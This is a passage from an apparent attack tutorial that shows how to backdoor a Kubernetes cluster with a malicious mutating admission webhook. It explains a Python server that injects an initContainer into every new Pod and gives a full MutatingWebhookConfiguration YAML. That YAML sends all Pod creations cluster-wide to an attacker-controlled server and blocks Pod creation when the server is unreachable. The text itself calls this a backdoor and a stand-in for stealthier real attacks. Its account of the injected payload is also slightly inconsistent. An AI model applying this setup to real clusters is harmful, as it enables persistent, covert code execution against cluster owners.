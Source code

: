 **Explanation:**

This Python script creates a simple HTTP server that listens on port 8443. It intercepts POST requests (which are the admission review requests from Kubernetes), parses the JSON payload, and constructs a JSON patch to inject an `initContainer` into the Pod specification. This `initContainer` executes a simple command ("Malicious code executed!") and sleeps for an hour, ensuring that the backdoor process runs in parallel with the main container processes.  This injects a simple file creation to demonstrate.

**Why:**

This serves as the malicious webhook endpoint that will modify Pods based on configured rules.  A real attack would involve more sophisticated and stealthy malicious code.

**Expected Output:**

The server will start and print "Webhook server running on port 8443...".

**Contribution:**

Provides the endpoint the Kubernetes cluster will contact to modify Pods.

**Step 5: Create a MutatingWebhookConfiguration**

Create a YAML file (e.g., `malicious-webhook.yaml`) with the following content:

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: malicious-webhook
webhooks:
- admissionReviewVersions:
  - v1
  clientConfig:
    url: "http://<your-server-ip>:8443" # Replace with your server IP
  failurePolicy: Fail
  matchPolicy: Equivalent
  name: malicious-webhook.example.com
  rules:
  - apiGroups:
    - ""
    apiVersions:
    - v1
    operations:
    - CREATE
    resources:
    - pods
    scope: '*'
  sideEffects: Unknown
  timeoutSeconds: 10
```

**Explanation:**

This YAML defines a MutatingWebhookConfiguration named `malicious-webhook`. It specifies that whenever a Pod is created (`operations: CREATE`) in any namespace (`scope: '*'`), the Kubernetes API server should send an admission review request to the specified URL (`clientConfig.url`).  `failurePolicy: Fail` means that pod creation will fail if the webhook is unreachable.
